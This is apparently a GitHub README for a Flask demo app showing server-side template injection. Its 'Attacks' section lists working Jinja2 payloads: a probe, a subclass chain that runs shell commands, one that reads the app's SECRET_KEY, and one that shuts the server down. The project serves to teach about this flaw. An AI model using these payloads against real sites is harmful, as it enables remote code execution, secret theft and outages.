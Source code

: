 # Flask SSTI demo
Small project that demonstrates SSTI attack on the Flask framework.

## How to run

Create virtual env and install Flask:
```
$ python3 -m venv env
$ source env/bin/activate
$ pip3 install flask flask-wtf
```

Run the app and go to ```http://localhost:5000```
```
$ python3 main.py
```

## Attacks

- Check if it's possible to execute SSTI attack. Result should be 49, not '{{ 7 * 7 }}'
```
{{ 7 * 7 }}
```
- Use MRO to run RCE
```
{{''.__class__.__mro__[1].__subclasses__()[405]('ls', shell=True, stdout=-1).communicate()}}
```
- Get SECRET_KEY
```
{{ config['SECRET_KEY'] }}
```
- Shut down the server
```
{{ request.environ['werkzeug.server.shutdown']() }}
```